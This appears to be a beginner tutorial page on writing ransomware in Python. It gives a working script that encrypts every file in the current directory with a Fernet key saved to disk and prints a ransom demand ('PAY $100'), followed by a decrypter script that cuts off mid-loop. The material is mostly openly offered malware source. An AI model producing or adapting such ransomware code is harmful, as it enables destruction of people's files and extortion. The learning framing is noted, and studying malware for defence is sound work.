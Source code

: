 

### Malware #2 - File Ransomware 
- Here we are going to do our own ransomware. 
-  So how do ransomware works…. Algorithm? 
    - They scan the system files 
    - They will encrypt them with some key 
    - Done! 
- We can do the decrypter to 
    - It accepts the key 
    - Decrypt the system files
- For our example we just encrypt and decrypt of files in our test folder 
- For this we can use Fernet module from cryptography package

##### Coding our ransomware
- encrypt
```python
import os
from cryptography.fernet import Fernet

files=[]

key = Fernet.generate_key()

with open('masterkey.key','xb') as mykey:
    mykey.write(key)

for fil in os.listdir():
    if fil!='masterkey.key' and os.path.isfile(fil) and fil!='ransomewareD.py' and fil!= 'ransomewareE.py':
        files.append(fil)
        
for fl in files:
    with open(fl,'rb') as content:
        a=content.read()
    encrypt=Fernet(key).encrypt(a)
    
    with open(fl,'wb') as encry_file:
        encry_file.write(encrypt)
print('YOUR FILES ARE ENCRYPTED!! \n PAY $100 AT @MAHNET AND GET YOUR FILES!!')

```

- decrypt
```python
import os 
from cryptography.fernet import Fernet

files=[]

with open('masterkey.key','rb') as mykey:
    key=mykey.read()
    
for fil in os.listdir():
    if fil!='masterkey.key' and os.path.isfile(fil) and fil!= 'ransomewareE.py' and fil!='ransomewareD.py':
        files.append(fil)
    
for fl in files:
    with open(fl,'rb') as content:
        a=content.read()
    
    decrypt=Fernet(key).decrypt(a)
    
    with open(fl,'wb') as decry_file:
```